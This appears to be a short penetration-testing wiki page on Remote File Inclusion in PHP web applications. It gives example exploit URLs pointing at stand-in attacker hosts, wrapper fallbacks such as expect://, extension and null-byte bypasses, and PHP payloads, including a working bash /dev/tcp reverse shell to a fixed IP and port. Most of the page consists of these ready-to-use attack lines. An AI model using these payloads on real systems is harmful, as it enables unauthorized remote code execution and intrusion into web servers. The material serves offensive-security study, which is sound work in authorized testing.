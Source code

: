 ```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the victim even if it is not available locally.
---
```


# Remote File Inclusion (RFI)

### Examples

#### Testing for RFI

Quick test for RFI with a PHP file, name this test.php and host using a Python server:

```php
<?php
echo "Hello";
?>
```

If we see the tags then we do not have remote code execution, however, if it says "Hello" then we have code execution.&#x20;

#### Basic Exploitation

`http://localhost/index.php?page=http://someevilhost.com/test.php`

If RFI doesn't work due to the HTTP wrapper being disabled then we can also try the following wrappers:

`ftp://10.10.10.1/AnyFile`

`expect://ls`

#### Obtaining a Shell

The simplest way to obtain a shell is to make a callback to the attacker server:

`http://acme.com/index.php?page=http://attackerserver.com/evil.txt`\
\
This vulnerability can be easily exploited by either using a PHP shell available from `/usr/share/webshells/php`&#x20;

Alternatively, the following commands can be input to a .txt file to obtain code execution:

`<?php echo shell_exec("whoami");?>`

`<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>`

### Notes

As stated briefly in the [LFI section](local-file-inclusion-lfi.md#additional-notes)

It is important in some situations to add a nullbyte `%00` to avoid appending `.php` or another extension like `.config`

If this does not work you can also add a `?`, to ensure that the rest will be interpreted as URL parameters.

A dirty way of bypassing this is also to name your file with the extension, e.g., `evil.txt.php`
